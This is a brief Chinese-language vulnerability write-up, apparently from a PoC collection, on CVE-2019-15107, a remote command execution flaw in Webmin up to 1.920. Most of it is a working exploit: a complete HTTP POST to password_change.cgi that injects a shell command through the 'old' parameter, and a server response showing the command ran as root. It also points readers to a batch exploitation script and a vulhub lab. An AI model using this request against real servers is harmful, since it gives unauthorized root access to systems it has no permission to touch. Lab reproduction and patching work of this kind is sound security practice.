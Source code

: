 # CVE-2019-15107  Webmin RCE <=1.920

```
1.  Webmin <=1.920
2.  漏洞需要开启密码重置功能。
```
`https://10.10.20.166:10000/password_change.cgi`

![](CVE-2019-15107-Webmin-1.920-远程命令执行漏洞.assets/CVE-2019-15107.gif)



### poc

在参数`old`后加上`|ifconfig` 执行命令。（user不存在仍然可以执行命令）

```
POST /password_change.cgi HTTP/1.1
Host: 10.10.20.166:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://10.10.20.166:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2



<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root)
</h3></center>
```


**批量脚本github获取**

### 参考链接：

https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107
